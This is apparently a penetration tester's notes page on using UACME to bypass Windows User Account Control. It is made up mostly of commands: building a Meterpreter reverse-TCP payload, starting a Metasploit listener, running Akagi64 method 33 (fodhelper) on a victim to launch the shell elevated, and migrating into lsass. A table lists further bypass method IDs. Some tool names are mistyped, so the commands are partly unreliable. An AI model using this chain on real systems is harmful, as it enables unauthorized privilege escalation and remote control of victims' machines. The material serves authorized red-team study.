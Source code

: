 # UACME - Best

#### UACME

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)\
[https://github.com/hfiref0x/UACME/issues/114](https://github.com/hfiref0x/UACME/issues/114) # Windows 11 as of 2021...&#x20;

{% code overflow="wrap" %}
```bash
# @ Commando VM 
# Complile UACME and transfer Akagi64.exe to Kali 
Use Visual Studio to compile 

# @ Kali 
# Reverse Shell
meterpreter -x windows/x64/meterpreter/reverse_tcp LHOST <IP Address> LPORT <PORT> > shell.exe

# Listener
vi handler.rc

use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP ADddress>
set LPORT <PORT>

msconsole -r handler.rc 

# @Victim
cd C:\Users\IEUSer>

# Upload Akagi64.exe and shell.exe to the Target machine

# check the number - https://github.com/hfiref0x/UACME 
C:\Users\IEUSer> .\Akagi64.exe 33 C:\Users\IEUSer\shell.exe

# @Kali
meterpreter> getuid
meterpreter> getprivs
meterpreter> pgrep lsass
628 
meterpreter> migrate 628 
meterpreter> getuid 
```
{% endcode %}

![](<../../.gitbook/assets/image (8).png>)

### Common Method IDs&#x20;

| Method ID | Bypass Technique                        |
| --------- | --------------------------------------- |
| 33        | fodhelper.exe                           |
| 34        | DiskCleanup scheduled task              |
| 70        | fodhelper.exe using CurVer registry key |
